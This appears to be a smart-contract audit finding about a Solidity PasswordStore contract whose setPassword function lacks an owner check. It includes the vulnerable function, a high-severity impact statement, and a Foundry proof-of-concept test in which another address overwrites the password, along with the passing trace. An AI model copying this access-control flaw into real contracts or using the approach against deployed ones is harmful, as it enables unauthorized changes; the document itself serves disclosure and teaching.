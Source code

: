```solidity
function setPassword(string memory newPassword) external { 
    s_password = newPassword;
    emit SetNetPassword();
}
```

---

## Impact

This vulnerability carries a high severity rating. Unauthorized users can change the password, potentially leading to unauthorized access or other malicious activities, if the password is used for critical operations within or outside the blockchain environment.

---

## POC (Proof of Concept)

```solidity
function test_anyone_can_set_password() public{
    vm.startPrank(address(2));
    string memory new_passwd = "weeeeeee";
    passwordStore.setPassword(new_passwd);
    vm.stopPrank();
    vm.startPrank(owner);
    string memory get_passwd = passwordStore.getPassword();
    //console.log(get_passwd);
    assertEq(new_passwd,get_passwd);
}
```
Add the POC function above to the `PasswordStore.t.sol` file

Output:
```
Running 1 test for test/PasswordStore.t.sol:PasswordStoreTest
[PASS] test_anyone_can_set_password() (gas: 22887)
Traces:
  [22887] PasswordStoreTest::test_anyone_can_set_password()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002)
    │   └─ ← ()
    ├─ [6686] PasswordStore::setPassword(weeeeeee)
    │   ├─ emit SetNetPassword()
    │   └─ ← ()
    ├─ [0] VM::stopPrank()
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x1804c8AB1F12E6bbf3894d4083f33e07309d1f38)
    │   └─ ← ()
    ├─ [3320] PasswordStore::getPassword() [staticcall]
    │   └─ ← weeeeeee
    └─ ← ()
```
